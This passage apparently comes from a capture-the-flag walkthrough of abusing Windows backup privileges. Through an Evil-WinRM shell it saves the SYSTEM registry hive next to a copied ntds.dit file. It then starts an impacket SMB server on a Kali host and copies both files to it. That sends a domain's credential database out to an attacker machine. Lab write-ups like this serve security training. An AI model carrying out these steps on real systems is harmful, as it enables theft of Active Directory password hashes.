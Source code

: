 ```bash
    Directory: C:\Temp\Restore


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/3/2022   2:22 PM       18874368 ntds.dit
```

Now lets generate a copy of the SYSTEM registry hive on the same folder.

```bash
*Evil-WinRM* PS C:\Temp> reg save hklm\system C:\Temp\Restore\system.hive
The operation completed successfully.
```

Now we have all the files we need.

```bash
*Evil-WinRM* PS C:\Temp> cd Restore
*Evil-WinRM* PS C:\Temp\Restore> dir


    Directory: C:\Temp\Restore


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2022   6:29 PM       17383424 system.hive
-a----        10/2/2022   6:27 PM       18874368 ntds.dit
```

On Kali, lets create a folder and start an SMB server to receive the files.

```bash
$ mkdir backupPriv
$ cd backupPriv
$ impacket-smbserver share $(pwd) -smb2support
```

Back on the target, lets access the share and copy the files over there.

```bash
*Evil-WinRM* PS C:\Temp\Restore> net use \\10.10.14.4\share
The command completed successfully.

*Evil-WinRM* PS C:\Temp\Restore> copy * \\10.10.14.4\share
*Evil-WinRM* PS C:\Temp\Restore> dir \\10.10.14.4\share


    Directory: \\10.10.14.4\share


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2022   6:29 PM       17383424 system.hive
-a----        10/2/2022   6:27 PM       18874368 ntds.dit
```
